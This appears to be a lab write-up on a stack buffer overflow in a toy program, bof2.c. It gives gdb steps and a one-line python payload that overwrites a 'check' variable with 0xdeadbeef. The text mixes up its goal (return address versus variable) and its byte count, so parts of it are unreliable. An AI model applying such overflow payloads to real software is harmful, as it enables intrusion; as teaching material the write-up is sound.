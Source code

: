 # bof2.c
To exploit `bof2.c`, we aim to overwrite the return address `vuln()` function and redirect the flow of execution to the `secretFunc()`  

# Stackframe


# Vulnerability
To overwrite the `check` variable, the attacker need to provide input that fills the 40-byte buffer and writes additional bytes to overwrite `check`  

# Attack
Compile the program without stack protection  
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image-5.png)  

Run gdb  
`gdb bof2.out`  
![alt text](image-6.png)

Set a breakpoint at the `fgets` function  
`break fgets`  
![alt text](image-7.png)

Run the program
`run`  
![alt text](image-8.png)

Analyze Memory Layout  
`p &check`, `p &buf`  
![alt text](image-9.png)

To attack, based on the stackframe we need 44 bytes  
Quit `q`  
To create 44 bytes by generate 40 characters 'a' and 4 characters 'b'  `echo $(python -c "print('a' * 40 + 'b' * 4 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![alt text](image-10.png)